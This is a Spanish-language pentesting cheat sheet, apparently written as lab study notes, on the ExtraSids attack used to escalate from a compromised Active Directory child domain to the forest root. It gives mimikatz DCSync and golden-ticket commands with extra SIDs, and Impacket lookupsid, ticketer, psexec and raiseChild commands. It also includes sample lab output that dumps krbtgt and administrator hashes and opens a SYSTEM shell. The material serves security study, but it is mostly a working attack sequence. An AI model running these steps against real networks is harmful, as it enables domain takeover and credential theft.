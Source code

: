 # ExtraSids Attack - Mimikatz

## Explicación rápida

- Este ataque permite comprometer a un dominio padre desde que el dominio hijo ya fue comprometido bajo el mismo **AD FOREST**.
- ![](https://s38063.pcdn.co/wp-content/uploads/2022/06/Active-Directory-forest-.jpg.optimal.jpg)
- Este ataque se basa en la explotación de propiedad sidHistory y la falta de protección de filtrado de SIDs (Sid filtering) entre dominios dentro de un AD FOREST.
- Para hacer este ataque se necesitan las siguientes condiciones:
    - HASH NT del KRBTGT del dominio hijo: Hay que generar un Golden Ticket.
    - SID del dominio fijo.
    - Nombre de un usuero objetivo en el dominio hijo.
    - FQDN del dominio hijo.
    - SID del grupo Enterprise Admins del dominio padre. 
- Debido a la ausencia de SID filtering, cuando este usuario autenticado con un SID modificado accede al dominio padre, est ratado como si fuera un miembro del grupo Admins, así dandole privilegios sobre todo el AD FOREST.

## Creación del golden ticket con mimikatz
- [Golden Ticket Attack más info](./goldenTicketAttack.md)
- `mimikatz # lsadump::dcsync /user:DOMAIN\krbtgt`
- `kerberos::golden /user:hacker /domain:DOMAIN.LOCAL /sid:SID-FOR-THE-CHILD-DOMAIN /krbtgt:9d765b482771505cbe97411065964d5f /sids:ENTERPRISE-ADMIN-SID /ptt`

## Obtener SID de enterprise admin
- `Get-DomainGroup -Domain DOMAIN.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid`

## Mediante Linux

### Conseguir el SID con impacket
- `impacket-lookupsid DOMAIN.LOCAL/USER@DC-IP`
- Ejemplo: `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"` 
    - `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"`

## Golden ticket con impacket
- `impacket-ticketer -nthash NT-HASH -domain DOMAIN.LOCAL -domain-sid DOMAIN-SID -extra-sid EXTRA-SID hacker`
- Exportamos la variable del ticket kerberos: `export KRB5CCNAME=hacker.ccache`
- Utilizamos psexec de impacket para entrar con este ticket `impacket-psexec DOMAIN.LOCAL/hacker@DC01.DOMAIN.LOCAL -k -no-pass -target-ip DC-IP`

## Automatizar este proceso con raiseChild de impacket
- Esta herramienta automatiza la escalación de dominio hijo a padre, necesitamos especificar el dominio objetivo con su DC, y credenciales en el dominio hijo. El script hará lo demás.
- `impacket-raiseChild -target-exec DC-IP CHILD.DOMAIN.LOCAL/user`

##### Ejemplo
```bash
┌─[htb-student@ea-attack01]─[~]
└──╼ $raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:
[*] Raising child domain LOGISTICS.INLANEFREIGHT.LOCAL
[*] Forest FQDN is: INLANEFREIGHT.LOCAL
[*] Raising LOGISTICS.INLANEFREIGHT.LOCAL to INLANEFREIGHT.LOCAL
[*] INLANEFREIGHT.LOCAL Enterprise Admin SID is: S-1-5-21-3842939050-3880317879-2865463114-519
[*] Getting credentials for LOGISTICS.INLANEFREIGHT.LOCAL
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
[*] Getting credentials for INLANEFREIGHT.LOCAL
INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:69e57bd7e7421c3cfdab757af255d6af07d41b80913281e0c528d31e58e31e6d
[*] Target User account name is administrator
INLANEFREIGHT.LOCAL/administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
INLANEFREIGHT.LOCAL/administrator:aes256-cts-hmac-sha1-96s:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
[*] Opening PSEXEC shell at ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Requesting shares on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Found writable share ADMIN$
[*] Uploading file KNAMkjZu.exe
[*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Creating service pxRD on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Starting service pxRD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```
